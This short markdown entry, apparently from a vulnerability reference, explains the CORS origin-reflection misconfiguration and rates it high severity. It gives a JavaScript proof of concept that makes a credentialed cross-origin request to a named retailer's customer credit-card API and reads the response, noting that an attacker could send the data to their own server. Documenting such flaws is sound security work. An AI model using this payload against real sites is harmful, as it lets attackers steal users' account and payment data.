 # Origin Reflection

## Description

Short: Host allows any origin to make requests to it.

Detailed: Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.

**Severity**: High

## Exploit 
Make requests from any domain you control.

### Example 
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-null-origin)
